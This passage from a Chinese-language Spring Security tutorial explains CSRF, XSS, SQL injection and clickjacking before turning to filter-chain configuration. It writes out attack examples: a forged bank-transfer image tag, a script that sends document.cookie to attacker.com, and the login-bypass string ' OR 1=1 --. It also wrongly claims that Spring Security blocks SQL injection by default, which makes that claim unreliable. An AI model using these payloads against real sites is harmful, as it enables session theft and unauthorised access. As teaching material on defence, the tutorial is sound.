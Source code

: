 # Spring 速成 Ch14 Spring Security

Spring 生态圈中有两个主流的安全框架：Apache Shiro 和 Spring Security。Spring Security 是 Spring 官方的安全框架，它提供了一套完整的安全解决方案，包括认证、授权、攻击防护等。Shiro 更为轻量，也是一个不错的选择。这里我们只介绍 Spring Security。

这里我们的演示使用 Spring WebFlux。在这里使用 Reactive 版的目的是为了展示 Spring WebFlux 的应用，但这不影响 Spring Security 的学习。

## Spring Security 三大职能

- 攻击防护（Attack Protection），包括防止常见的网络安全攻击，如 CSRF、XSS等。
- 认证（Authentication），验证用户的身份。
- 鉴权（Authorization），控制用户对资源的访问权限。

## 攻击防护

### 常见的网络安全攻击及其原理

#### CSRF（Cross-Site Request Forgery）

CSRF 是一种网络攻击，攻击者利用用户的登录状态发起恶意请求。攻击者可以伪造请求，让用户在不知情的情况下执行恶意操作。

例如，如果用户在`http://bank.com/transfer`页面上登录了银行账号，攻击者可以在另一个页面上放置一个`<img src="http://bank.com/transfer?to=attacker&amount=1000">`的图片，当用户访问这个页面时，浏览器会自动加载这个图片。因为用户的网络环境中已经有了银行的 Cookie，所以这个请求会带上用户的 Cookie，从而执行了转账操作。

#### XSS（Cross-Site Scripting）

XSS 是一种网络攻击，攻击者在网页中注入恶意脚本，当用户访问这个页面时，脚本会在用户的浏览器中执行。这样攻击者就可以获取用户的 Cookie、密码等信息。

这种攻击很像 SQL 注入，只不过 SQL 注入是攻击数据库，而 XSS 是攻击用户。

一种常见的 XSS 攻击是在评论框中注入脚本，当其他用户访问这个页面时，脚本会在他们的浏览器中执行。例如，攻击者在评论框中输入`<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>`，这样其他用户访问这个页面时，就会向`http://attacker.com`发送请求，从而泄露 Cookie。

#### SQL 注入

SQL 注入是一种网络攻击，攻击者在输入框中输入恶意 SQL 语句，当这个 SQL 语句被拼接到数据库查询中时，就会执行这个 SQL 语句。

例如，如果一个登录页面的 SQL 查询是`SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`，攻击者可以输入`' OR 1=1 --`，这样 SQL 查询就变成了`SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '${password}'`，这样就绕过了密码验证。

#### 点击劫持

点击劫持是一种网络攻击，攻击者在一个透明的 iframe 中放置一个恶意网页，然后将这个 iframe 放在一个看似无害的页面上。当用户点击这个页面时，实际上是点击了 iframe 中的恶意网页。

例如，攻击者在一个透明的 iframe 中放置一个银行转账页面，然后将这个 iframe 放在一个看似无害的页面上。当用户点击这个页面时，实际上是点击了银行转账页面，从而执行了转账操作。

### 配置 Spring Security 进行攻击防护

Spring Security 中，所有的功能都是通过 SecurityFilterChain 实现的。如名字所示，SecurityFilterChain 是一个过滤器链，它包含了一系列的过滤器，每个过滤器负责一个功能。

对于 Spring Web，这个过滤器是 Servlet Filter；对于 Spring WebFlux，这个过滤器是 WebFilter。不过，两者的功能是一样的。

Spring Security 默认开启了全部的攻击防护功能，包括 CSRF、XSS、SQL 注入等。我们可以通过配置来关闭这些功能。
